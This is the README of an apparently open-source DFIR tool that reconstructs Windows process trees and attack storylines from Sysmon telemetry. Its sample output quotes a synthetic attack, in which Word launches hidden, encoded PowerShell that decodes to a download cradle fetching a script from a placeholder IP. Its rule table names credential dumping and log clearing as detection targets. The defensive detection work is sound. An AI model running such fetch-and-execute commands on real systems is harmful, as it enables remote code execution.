

# Lineage

Offline reconstruction of Windows process lineage and attack storylines from Sysmon telemetry.

[](https://github.com/PranavY-01/Lineage/actions/workflows/ci.yml)


Day 7 of *7 Days – 7 Cybersecurity Projects* (NetScope → TraceDNS → FileSift → AuthWatch →
WebGuard → Lucent → **Lineage**).



*`lineage analyze --hot-only` on the synthetic fixture `tests/fixtures/phish_chain.jsonl`.*

> **A partial analysis is never presented as clean, and Lineage never claims anything is
> malicious.** Findings are leads for an analyst; when telemetry is missing, the result says
> so and the exit code is 4.

## Problem and aim

A compromised Windows host produces tens of thousands of Sysmon events an hour. Rule-based
hunters return a flat list of hits and leave the analyst to rebuild the chain by hand: which
document launched which shell, what that shell downloaded, what persisted, where it called
home. Most tools also stay silent about what the telemetry could not show, so silence is
mistaken for safety.

Given Sysmon logs, Lineage answers six questions, each with record references:

| # | Question | Lineage answer |
|---|---|---|
| Q1 | What suspicious things ran? | Findings on process nodes; hot-only tree |
| Q2 | How did it start? | Storyline root (patient zero) and its ancestry |
| Q3 | What did it do? | Numbered story steps with network, file, registry and access activity |
| Q4 | Is it still there? | Persistence findings, persistence links and the scope summary |
| Q5 | Where else should I look? | Artifacts JSONL for IOC extraction with Lucent |
| Q6 | What could I not see? | Coverage: missing event types, rules not evaluable, parse failures, gaps |

## Why Lineage

Chainsaw and Hayabusa are established EVTX hunters that run large rule sets and report hits.
Lineage does not claim better detection coverage than them. It differs in three ways:

- **Reconstruction over detection.** The main output is the process lineage and the attack
  storyline, not a hit list.
- **Storylines.** Flagged processes are grouped into separate attack chains using system
  anchor processes, ranked by visible signals (highest severity, tactic count, finding count)
  and narrated in time order. Persistence and dropped files link one storyline to a later one.
- **Honest coverage.** Each rule declares the telemetry it needs. A rule that could not run is
  reported as not evaluable, never as clean.

## Features and non-goals

Features:

- Sysmon EVTX, JSON and JSONL input, three record shapes, SHA-256 of every input, caps on size,
  records, line length and nesting, and deduplication.
- One process graph per host, with ghost processes for parents that were never recorded.
- 20 YAML rules and 4 graph heuristics with advisory ATT&CK v20 mappings, plus decoding of
  PowerShell `-EncodedCommand` payloads.
- Storylines with anchors, ranking, story steps, time-gap markers, a scope summary and
  persistence and drop links.
- Coverage with not-evaluable rules and an exit code that never calls a partial run clean.
- Filters (`--host`, `--rules`, `--min-severity`, `--since`, `--until`, `--around`) and
  `--focus` pivoting on one process.
- A `7d7b-report` JSON report, artifacts JSONL for Lucent and a CSV storyline timeline.

Non-goals: verdicts, remediation or any change to a system, network lookups, executing or
opening anything named in the evidence, a web dashboard, and an aggregate risk score.

## How it works

```
ingest → normalize → graph → detect → analyze → render
   └──────────── every stage reports into coverage ───────────┘
```

1. **Ingest and normalize.** Each record becomes an `Event` or is counted as irrelevant or
   invalid, with a reason. Events are deduplicated and sorted by host, time and record.
2. **Graph.** Process creations become nodes keyed by `ProcessGuid`; parents and processes
   that were referenced but never created become ghosts; other events attach to their
   process.
3. **Detect.** Event rules match normalized fields; graph heuristics look at ancestry and
   timing. Hits are aggregated per rule, host and process.
4. **Analyze.**
   - *Anchors* are long-lived system processes (`explorer.exe` in `C:\Windows\`,
     `services.exe` in `C:\Windows\System32\`, …), matched by name **and** directory, so a
     `svchost.exe` in `C:\Users\Public\` is not one.
   - *Root:* for each flagged process, walk up the ancestors; the root is the last process
     before the first anchor.
   - *Membership:* flagged processes with the same root form one storyline, together with the
     processes on the path from the root and every descendant of a flagged process.
   - *Ranking:* highest severity, then number of tactics, then number of findings, then start
     time. No combined score is computed.

```
explorer.exe (anchor)                     services.exe (anchor)
└─ OUTLOOK.EXE        ← root S1           └─ upd.exe   ← root S2 (flagged)
   └─ WINWORD.EXE
      └─ cmd.exe      ! LIN-001, CMD-001
         └─ powershell.exe  ! CMD-001, CMD-002, GR-001
            └─ rundll32.exe ! NET-001, PER-001, GR-001
```

See [docs/architecture.md](docs/architecture.md) for the layers and data model.

## Installation

Python 3.11 or newer.

Windows (PowerShell):

```powershell
git clone https://github.com/PranavY-01/Lineage.git
cd Lineage
py -3.12 -m venv .venv
.\.venv\Scripts\Activate.ps1
pip install -e ".[dev]"
lineage --version
```

Linux and macOS:

```bash
git clone https://github.com/PranavY-01/Lineage.git
cd Lineage
python3 -m venv .venv
. .venv/bin/activate
pip install -e ".[dev]"
lineage --version
```

## Quick start

Every command below runs on the synthetic fixture in this repository. To try real data, see
[scripts/fetch_demo_data.md](scripts/fetch_demo_data.md); the same commands apply.

```bash
lineage validate tests/fixtures/phish_chain.jsonl            # what is here, what is missing
lineage analyze tests/fixtures/phish_chain.jsonl --hot-only  # storylines, hot trees, scope
lineage story tests/fixtures/phish_chain.jsonl --storyline 1 # the attack as a narrative
lineage inspect tests/fixtures/phish_chain.jsonl image:powershell.exe
lineage analyze tests/fixtures/phish_chain.jsonl --report out/report.json \
    --artifacts out/iocs.jsonl --csv out/timeline.csv
lucent scan out/iocs.jsonl --format both --output-dir out/   # hand IOCs to Lucent
lineage analyze tests/fixtures/missing_telemetry.jsonl       # honest coverage: exit 4
```

An excerpt of `lineage story` (URLs are defanged in human-readable output):

```
 3  10:02:05Z  ! winword.exe spawned cmd.exe cmd.exe /c powershell -nop -w hidden -enc SQBFAFgA… [CMD-001, LIN-001]  T1204.002
 4  10:02:05Z    cmd.exe decoded: IEX (New-Object Net.WebClient).DownloadString('hxxp[://]203[.]0[.]113[.]10/a.ps1')
 ...
 9  10:02:10Z    powershell.exe wrote C:\Users\Public\upd.exe
     ↪ dropped file runs later as S2 (exact match: c:\users\public\upd.exe)
```

And of `lineage analyze` on input that lacks most event types:

```
 Coverage    ✗ PARTIAL · events 5, 7, 8, 10, 11, 12, 13, 22, 23 absent
             CRD-001 not evaluable (needs 10)
             GR-003 not evaluable (needs 11)
 ...
 INCOMPLETE   0 storylines · 0 findings · coverage partial
 Coverage is partial: no findings in what could be analyzed is NOT a clean result.     exit 4
```

The [user guide](docs/USER_GUIDE.md) walks through triage, patient zero, scoping, the Lucent
handoff and checking a Sysmon configuration.

## Commands and options

| Command | Purpose |
|---|---|
| `lineage validate INPUT...` | What the input holds: hosts, span, counts, event IDs, readiness by rule family |
| `lineage analyze INPUT...` | Full run: coverage, storyline ranking, hot trees, scope, findings, outputs |
| `lineage tree INPUT...` | Process trees per host, findings marked |
| `lineage story INPUT...` | Storylines as numbered narratives with tactic headings and gaps |
| `lineage inspect INPUT... TARGET` | Everything about one process (GUID, `pid:N` or `image:NAME`) |
| `lineage rules` | The rules and heuristics with the event IDs they need |

Common options for `analyze`, `tree` and `story`:

| Option | Meaning |
|---|---|
| `--host H` | Only this host (repeatable) |
| `--rules IDS` | Rule IDs or families, e.g. `CMD,PER-001,GR` |
| `--min-severity S` | Drop findings below `high`, `medium`, `low` or `info` |
| `--since T`, `--until T` | Show a time window (RFC 3339 with an offset) |
| `--around T --window D` | Show `T ± D` (default 15m) |
| `--focus X` | Pivot on one process: its ancestors and descendants |
| `--hot-only` | Trees show only storyline nodes and their ancestors (`analyze`, `tree`) |
| `--format json` | Print the JSON report instead of the text view |
| `--max-records N`, `--max-file-size MB` | Input caps (defaults 2,000,000 and 2048) |
| `--telemetry-gap D` | Report pauses in telemetry of at least D (default 30m) |

`analyze` also takes `--report PATH`, `--artifacts PATH`, `--csv PATH` and `--force`;
`story` takes `--storyline N`, `--max-steps N` and `--gap D`; `tree` takes `--max-depth N`
and `--collapse-min N`. Display filters never change the result or the exit code. Run
`lineage COMMAND --help` for every option.

## Rules

| ID | Title | Severity | ATT&CK (advisory) |
|---|---|---|---|
| LIN-001 | Office application spawned an interpreter | high | T1204.002 |
| LIN-002 | Script host spawned a shell | medium | T1059.005, T1059.007 |
| LIN-003 | WMI provider host spawned a shell | high | T1047 |
| CMD-001 | Encoded PowerShell command | medium | T1059.001, T1027.010 |
| CMD-002 | PowerShell download cradle | high | T1059.001, T1105 |
| CMD-003 | Certutil download or decode | high | T1105, T1140 |
| CMD-004 | Mshta remote or inline script | high | T1218.005 |
| CMD-005 | Regsvr32 remote scriptlet | high | T1218.010 |
| CMD-006 | Recovery inhibited | high | T1490 |
| CMD-007 | Event log cleared | high | T1685.005 |
| LOC-001 | Execution from a user-writable staging path | low | none |
| LOC-002 | System binary name outside system directories | high | T1036.005 |
| PER-001 | Registry Run key set | medium | T1547.001 |
| PER-002 | Scheduled task created | medium | T1053.005 |
| PER-003 | Service created | medium | T1543.003 |
| PER-004 | File written to a Startup folder | medium | T1547.001 |
| CRD-001 | LSASS memory access | high | T1003.001 |
| CRD-002 | LSASS dump via command line | high | T1003.001 |
| INJ-001 | Remote thread created in another process | medium | T1055 |
| NET-001 | Proxy-execution binary made a network connection | high | T1218, T1105 |
| GR-001 | Office-descended process connected out | high | T1204.002 |
| GR-002 | Discovery burst | medium | T1033, T1082, T1016, T1087, T1482, T1057 |
| GR-003 | Dropped file later executed | medium | T1105 |
| GR-004 | Active process with no creation record | info | none |

[docs/rules.md](docs/rules.md) has the conditions, tactics, technique names, known false
positives and the MITRE attribution. Mappings follow ATT&CK Enterprise v20.

## Coverage: reading a result

| Result | Coverage | Status | Exit |
|---|---|---|---|
| no findings | complete | `no_findings` | 0 |
| findings | complete | `findings_detected` | 1 |
| no findings | partial | `incomplete` | 4 |
| findings | partial | `incomplete` | 4 |

Any of these reason codes makes coverage partial: `no_events`, `invalid_records`,
`duplicate_conflicts`, `cycles_broken`, `record_cap_reached`, `not_evaluable:<RULE>`,
`partially_evaluable:<RULE>`. Ghost processes, telemetry gaps, out-of-order records and
irrelevant (non-Sysmon) records are reported but never make a run partial. Use `--rules` to
scope a run to the telemetry you know you have.

## Report format and artifacts

- `--report PATH` and `--format json` write the `7d7b-report` envelope shared with AuthWatch
  and FileSift, with coverage, findings and storylines. Schema:
  [schema/report-1.0.json](schema/report-1.0.json); example:
  [examples/sample-report.json](examples/sample-report.json). The report always holds the
  whole analysis; display filters are only recorded under `parameters`.
- `--artifacts PATH` writes one JSON object per line: command lines, decoded payloads,
  destinations, DNS names, files, registry values and image hashes from storyline processes.
  Schema: [schema/artifacts-1.0.json](schema/artifacts-1.0.json). Values are raw so Lucent
  sees the original text; Lucent extracts IPv4 addresses, domains, URLs and MD5/SHA-1/SHA-256
  hashes (no IPv6):

  ```bash
  lucent scan iocs.jsonl --format both --output-dir reports/
  ```
- `--csv PATH` writes the storyline timeline: UTF-8 with BOM, CRLF, every field quoted, and
  cells that a spreadsheet would read as formulas prefixed with `'`.

Outputs are written atomically after the analysis. Lineage refuses to write over an input, a
symbolic link, a directory or a file it did not write, and `--force` replaces only its own
earlier output.

## Exit codes

| Code | Meaning |
|---|---|
| 0 | Complete analysis, no findings (or a successful `rules`, `inspect`, fully valid `validate`) |
| 1 | Complete analysis, findings detected |
| 2 | Usage error: bad option, naive time, unknown rule, focus not found or ambiguous, unsafe output path |
| 3 | Input unusable: unreadable, not EVTX/JSON/JSONL, UTF-16/32 JSON |
| 4 | Incomplete coverage, output write failure or an internal error |
| 130 | Interrupted; nothing is written |

## Security considerations and limitations

Evidence is hostile input. Lineage never executes, opens or fetches anything named in it, makes
no network connections, escapes control characters, bidi overrides and Rich markup in every
human-readable output, defangs URLs, and never turns evidence into links. Parsing is capped
and graph walks are iterative, so deep or huge inputs cannot exhaust the stack.

Known limitations:

- **Memory.** Lineage holds the whole analysis in memory. Peak memory grows by about 2.3 GiB
  (2.5 GB) per million records for a typical mix of Sysmon events. The default
  `--max-records` of 2,000,000 keeps the peak near 4.9 GB; raising it needs memory in
  proportion.
- Requires Sysmon process telemetry; Security 4688-only logs are not supported.
- Single-host reasoning; lateral movement between hosts is not stitched together.
- Detection depends on the Sysmon configuration; filtered event types make rules not
  evaluable.
- Rules match process names and paths, which masquerading can evade (partly offset by
  LOC-002). Exclusion lists for LSASS access and remote threads can hide abuse by those same
  processes.
- PowerShell decoding covers `-EncodedCommand` forms only.
- Ghost parents are reconstructed from child fields and may be incomplete.
- Timestamps come from the source; a skewed or forged clock gives a wrong order. Log deletion
  before collection cannot be detected.
- Persistence links match `%APPDATA%`-style targets by suffix, which can link the wrong
  process; shortcut (`.lnk`) targets are not resolved.
- On the two public samples tested (see `scripts/fetch_demo_data.md`), the attack chains were
  reconstructed but not flagged by the v1.0 rule set.
- Findings are leads, not proof; a storyline is a hypothesis for an analyst to confirm.

## Privacy and responsible use

Reports contain user names, host names, internal addresses, file paths and command lines,
which may include secrets passed as arguments. Store and share them accordingly. Reports
record input base names only, are created with mode 0600 on POSIX, and Lineage keeps nothing
between runs. Redaction of user names is on the roadmap.

Lineage analyzes logs you are authorized to hold. Its findings are leads for investigation,
not proof of compromise or of innocence. It does not block, remediate or change any system.

## Tests and CI

1,398 tests run offline on synthetic fixtures, with 96% line coverage. They cover every
layer, shuffle invariance, byte-identical reports with a frozen clock, golden outputs, hostile
strings in every output format and every exit code. CI runs ruff and pytest on Ubuntu and
Windows with Python 3.11, 3.12 and 3.13.

```bash
ruff check . && ruff format --check . && pytest --cov=lineage_ir
```

## Roadmap

- **v1.1:** merging AuthWatch and FileSift reports into one case, `explain`, `diff`, ATT&CK
  Navigator layer export, zip and directory input, allow-lists, user-name redaction, a
  self-contained HTML report, and two rules: "installer spawned a shell" (with care for
  legitimate MSI custom actions) and "PowerShell server-mode host ran discovery".
- **v1.2:** a degraded mode for Security 4688 logs, Linux (Sysmon for Linux, then auditd) and
  AuthWatch sshd correlation.
- **v2:** cross-host stitching, parent-to-child rarity scoring, a Sigma subset, STIX 2.1 and
  timeline exports, a disk-backed store for very large inputs, and log-tampering detection.

## Licence and dataset credits

MIT; see [LICENSE](LICENSE).

The screenshots in this README and in `docs/images/` are produced by
`scripts/capture_screenshots.py` from the synthetic fixtures in `tests/fixtures/`. The
optional real-data walkthrough uses samples from
[EVTX-ATTACK-SAMPLES](https://github.com/sbousseaden/EVTX-ATTACK-SAMPLES); they are never
copied into this repository. ATT&CK is a registered trademark of The MITRE Corporation;
technique IDs and names are from [MITRE ATT&CK](https://attack.mitre.org/).
